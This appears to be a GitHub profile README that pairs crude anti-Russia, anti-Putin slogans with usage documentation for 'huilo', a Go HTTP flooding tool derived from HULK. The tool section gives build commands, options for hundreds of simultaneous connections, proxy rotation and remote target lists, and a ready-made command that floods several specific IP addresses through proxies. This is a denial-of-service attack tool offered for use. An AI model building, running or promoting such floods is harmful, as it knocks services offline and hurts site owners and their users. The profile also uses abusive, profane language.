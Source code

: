 - 👋 Hi, I’m @russian-boat-fuck-you
- 👀 I’m interested in fuck Putin's diplomacy
- 🌱 I’m currently learning yoha and dzen
- 💞️ I’m looking to collaborate on fuck russian boat to have a peace overall the world!
- 📫 How to reach me: I will found you when need

<!---
russian-boat-fuck-you/russian-boat-fuck-you is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->

### (c) The initial idea is coming from https://github.com/grafov/hulk

#### Build an executable binary
    go build huilo.go

For raspberry PI 4 32-bit OS

    GO111MODULE=on CGO_ENABLED=0 GOOS=linux GOARCH=arm GOARM=7 go build  -trimpath -ldflags "-s -w -extldflags '-static'" -installsuffix cgo -tags netgo huilo.go
    
#### Usage
    ./huilo --help
    Usage of huilo:
        -t, --max-routines int          Maximum number of simultaneous connections (default 500)
        -p, --proxies-url proxies-url   URL to fetch proxy list from proxies-url (default "https://hutin-puy.nadom.app/proxy.json")
        -x, --random-proxy              Use random proxy from list
        -r, --refresh duration          Screen refresh interval in seconds (default 3s)
        -s, --site site-url             Sites list. Can be used multiple times. Have precedence over sites-url if set site-url
        -u, --sites-url sites-url       URL to fetch sites list from sites-url  (default "https://hutin-puy.nadom.app/sites.json")
              
    http_proxy=10.2.3.4:5678 https_proxy=10.2.3.5:5679 socks5_proxy=10.2.3.6:5680 ./huilo --max-routines 1000 --site http://178.248.237.238 --site http://185.170.2.62 -s https://185.170.2.62 -s http://195.208.109.88 --site https://195.208.109.88 -x -r 5s
